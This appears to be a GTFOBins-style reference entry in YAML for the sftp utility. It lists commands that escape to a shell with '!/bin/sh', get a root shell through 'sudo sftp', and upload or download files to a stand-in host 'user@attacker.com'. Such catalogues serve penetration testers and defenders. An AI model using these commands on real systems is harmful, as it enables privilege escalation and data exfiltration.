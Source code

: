 ```yaml
---
functions:
  execute-interactive:
    - code: |
        HOST=user@attacker.com
        sftp $HOST
        !/bin/sh
  upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send file_to_save
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get file_to_save
  sudo-enabled:
    - code: |
        HOST=user@attacker.com
        sudo sftp $HOST
        !/bin/sh
---
```

